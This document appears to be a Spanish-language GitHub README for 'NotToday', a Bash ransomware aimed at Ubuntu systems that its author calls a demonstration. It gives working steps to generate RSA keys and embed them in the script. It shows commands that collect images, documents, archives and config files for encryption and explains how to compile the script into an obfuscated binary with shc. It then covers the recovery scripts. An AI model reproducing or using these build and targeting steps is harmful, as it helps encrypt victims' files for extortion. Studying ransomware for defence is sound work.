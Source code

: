 # NotToday
[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

NotToday en un ransomware programado en Bash Scripting de uso para distribuciones Ubuntu y derivados. Creado para la demostracion del funcionamiento de un ransomware y el impacto que este puede desmebocar en un computador. Así mismo el codigo aquí expuesto esta sujeto a cambio y actualizaciones de manera que se logre un malware mucho mas completo.

## Configuracion Inicial
### Creacion de llaves RSA
Creamos una llave privada RSA aleatoria de una cantidad especifica.

    $ openssl genrsa -out clave.pem 4096

Luego creamos la llave publica mediante la llave privada.

    $ openssl rsa -in clave.pem -out clave.pub.pem -outform PEM -pubout
    
### Insertar la llave publica en el codigo
Para esto debemos editar el archivo ***pwn.sh*** por en contenido de la llave publica.
```bash
#Clave Publica
echo "-----BEGIN PUBLIC KEY-----" >> clave.pub.pem
...
...
echo "-----END PUBLIC KEY-----" >> clave.pub.pem
```

### Seleccionar que formato de ficheros desea encriptar
```bash
#Generar los archivos a encriptar
locate -r "\.jpg$" > /tmp/list.ntm
locate -r "\.jpeg$" >> /tmp/list.ntm
locate -r "\.png$" >> /tmp/list.ntm
locate -r "\.pdf$" >> /tmp/list.ntm
locate -r "\.odt$" >> /tmp/list.ntm
locate -r "\.rar$" >> /tmp/list.ntm
locate -r "\.zip$" >> /tmp/list.ntm
locate -r "\.txt$" >> /tmp/list.ntm
locate -r "\.conf$" >> /tmp/list.ntm
```

## Creacion del binario para ejecucion
Para crear el binario usaremos una herramienta llamada ***shc***.

    $ shc -v -r -f pwn.sh
    
Nos encontraremos con dos archivos, ***pwd.sh.x*** y ***pwn.sh.c***.

- ***pwd.sh.x***: El archivo ejecutable del ransomware.
- ***pwn.sh.c***: El script en c del ransomware.

## Recuperar los ficheros encriptados
Al realizarse satisfactoriamente el encriptado de los ficheros el ransomware deja un fichero denominado ***enviame.enc***, se deberá colocar en la misma carpeta que el archivo ***dcry.sh*** y la llave privada ***clave.pem***. Y ejecutar el siguiente comando.

    $ bash dcry.sh

El cual generará un fichero llamado ***key.txt***. Y ahora usaremos el fichero ***repa.sh*** para recuperar todos los archivos encriptados usando la key obtenida.

    $ bash repa.sh

## Creditos

Autor: ***Eduardo Sarria (Desdes)***

Facebook: [https://www.facebook.com/eduardo.s.desdes](https://www.facebook.com/eduardo.s.desdes)

Linkedin: [https://www.linkedin.com/in/eduardodesdes/](https://www.linkedin.com/in/eduardodesdes/)

OpenBugBounty: [https://www.openbugbounty.org/researchers/EduardoDesdes/](https://www.openbugbounty.org/researchers/EduardoDesdes/)